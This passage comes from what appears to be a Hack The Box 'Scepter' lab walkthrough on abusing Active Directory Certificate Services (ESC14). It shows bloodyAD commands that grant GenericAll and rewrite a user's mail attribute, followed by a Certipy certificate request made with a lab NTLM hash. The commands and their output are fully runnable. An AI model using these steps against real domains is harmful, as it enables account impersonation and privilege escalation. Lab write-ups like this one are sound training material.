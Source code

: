 Let's come back Bloodhound to check `A.Carter`
![](images/Pasted%20image%2020250718165343.png)
`A.Carter` is from the IT support group. IT support can perform `STAFF_ACCESS_CERTIFICATE`

# ESC 14 condition
Based on the information we have, we can fully control d.baker, including modifying its various properties, and satisfying the `ESC 14` condition:
`https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9#4a82`

Step 1: Confirm or set `GenericAll`:
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ bloodyAD -d scepter.htb -u a.carter -p 'Abc123456@' --host dc01.scepter.htb --dc-ip 10.10.11.65 add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" a.carter
[+] a.carter has now GenericAll on OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB

```
Step 2: Modify the d.baker's mail attribute to impersonate another user:
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ bloodyAD -d scepter.htb -u a.carter -p 'Abc123456@' --host dc01.scepter.htb --dc-ip 10.10.11.65 set object d.baker mail -v h.brown@scepter.htb
[+] d.baker's mail has been updated
```

Step 3: Requesting Certificate as H.Brown
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ certipy-ad req -username "d.baker@scepter.htb" -hashes aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce -target dc01.scepter.htb -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc01.scepter.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: SCEPTER.HTB.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 2
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'd.baker.pfx'
[*] Wrote certificate and private key to 'd.baker.pfx'
```
